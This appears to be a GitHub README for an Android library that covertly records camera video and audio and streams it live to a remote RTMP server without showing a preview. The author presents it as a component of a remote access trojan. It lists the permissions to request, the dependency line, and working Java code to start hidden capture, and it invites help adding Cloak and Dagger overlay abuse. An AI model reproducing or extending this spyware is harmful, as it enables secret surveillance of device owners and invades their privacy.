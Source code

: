 
# Live Hidden Camera

Live Hidden Camera (LHC) is a library which record live video and audio from Android device without displaying a preview.
![Live Hidden Camera](https://github.com/mirsamantajbakhsh/LiveHiddenCamera/raw/master/ScreenShots/Live%20Hidden%20Camera.gif)

## Motivation
I'm working on a research based Android Malware and decided to create a multi function RAT (Remote Administration Tool). I was working on Live Streams which I've found some RTMP based open sources projects including:

 - https://github.com/begeekmyfriend/yasea
 - https://github.com/ant-media/LiveVideoBroadcaster
 - https://github.com/TakuSemba/RtmpPublisher
 - https://github.com/fyhertz/libstreaming
which, all have some kind of problems based on the requirements of a RAT. But the common one was that they all need an activity to include a `SurfaceView`.

Therefore, I've started searching. Finally, I could create **Live Hidden Camera** which only needs a **CONTEXT** for stream live video, by combining these two projects:

 1. https://github.com/begeekmyfriend/yasea
 2. https://github.com/kevalpatel2106/android-hidden-camera

# How to use
I've created a library to make it more usable. The only requirement is to add the library to your project and pass the Rtmp URL to it.

Additionally you should care about:

 1. Your application should have the following permissions in `Manifest.xml`:
 ```
<uses-permission android:name="android.permission.INTERNET" />  
<uses-permission android:name="android.permission.CAMERA" />  
<uses-permission android:name="android.permission.RECORD_AUDIO" />  
<uses-permission android:name="android.permission.SYSTEM_ALERT_WINDOW" />
```

 2. You should handle that the declared permissions are granted to your application

<img src="https://github.com/mirsamantajbakhsh/LiveHiddenCamera/raw/master/ScreenShots/Permissions1.png" width="250">
<img src="https://github.com/mirsamantajbakhsh/LiveHiddenCamera/raw/master/ScreenShots/Permissions2.png" width="250">

## Adding library
The usage of the library is straight. Just add the following library to the `gradle.build` file of your project.

`compile 'ir.mstajbakhsh.android:LiveHiddenCamera:0.1.2'`

- Update: In the previouls release, Main Activity with Launcher filter was in library, which made the application (that uses the library), had two icons. **In this release, the filter is commented in `Manifest`**.

## Creating RTMP server
Before using the library, you should have deployed an Rtmp server. I've ued [Ant Media Server](https://github.com/ant-media/Ant-Media-Server). There is a nice guide on Ant Media Server installation in [THIS LINK](https://github.com/ant-media/Ant-Media-Server/wiki/Getting-Started).

After starting the Ant Media Rtmp server, you should see something like this:
![Ant Media Server](https://github.com/mirsamantajbakhsh/LiveHiddenCamera/raw/master/ScreenShots/AntMediaServer.png)

## Sample Code
After adding the library to your project, do the following steps:

 1. Create a class which implements: `RtmpHandler.RtmpListener, SrsRecordHandler.SrsRecordListener, SrsEncodeHandler.SrsEncodeListener`
 2. Create two fields (one for publish and one for preview): 

    private SrsPublisher mPublisher;  
    private SrsCameraView mCameraView;

 3. Implement a function for starting the Live Hidden Camera:
 
```Java
    private void initHiddenCam(String rtmpURL) {  
    HiddenCameraLayout l = new HiddenCameraLayout(getApplicationContext(), new HiddenCameraLayout.PermissionHandler() {  
        @Override  
  public void onPermissionNotGrantedException(Exception ex) {  
            Log.d("HCL", "Ask user to grant permission.");  
            Log.e("HCL", ex.getMessage());  
        }  
    });  
  
    //start config  
  CameraConfig cameraConfig = new CameraConfig()  
            .getBuilder(MainActivity.this.getApplicationContext())  
            .setCameraFacing(CameraFacing.REAR_FACING_CAMERA)  
            .build();  
  
  
    mCameraView = l.initHiddenLayout(cameraConfig);  
  
    mPublisher = new SrsPublisher(mCameraView);  
    mPublisher.setEncodeHandler(new SrsEncodeHandler(this));  
    mPublisher.setRtmpHandler(new RtmpHandler(this));  
    mPublisher.setRecordHandler(new SrsRecordHandler(this));  
    mPublisher.setPreviewResolution(640, 360);  
    mPublisher.setOutputResolution(640, 360);  
    mPublisher.setVideoHDMode();  
    mPublisher.startPublish(rtmpURL);  
    mPublisher.startCamera();  
}
```

# Problems
## Green Screen
The main problem I currently facing, is the green screen. I've described the error in StackOverflow in https://stackoverflow.com/questions/56380851/getting-green-image-while-preview-hidden-live-video

If you have any suggestion about this problem, or any other idea, do not hesitate contacting me.

## Constant View
Because of the overlay of the Live Hidden Camera, no other apps can be clicked. The clicks are only accepted by the LHC. Check **TODO** section.

# TODO
There is a project called *Cloak and Dagger* which unraveled a very dangerous ability in Android. Any contribution in using the *Cloack and Dagger* in LHC is welcomed.

Check the *Cloak and Dagger* here:

 1. http://cloak-and-dagger.org
 2. https://medium.com/@targetpractice/cloak-and-dagger-malware-techniques-demystified-c4d8a035b94e

# Donate
You may donate this project using my BitCoin address at:

```
BitCoin:

1F5uiEmdCLJX5KktWHE1wkc63feKJYMmxS
```
# Contact
You can reach me from my website: https://mstajbakhsh.ir/
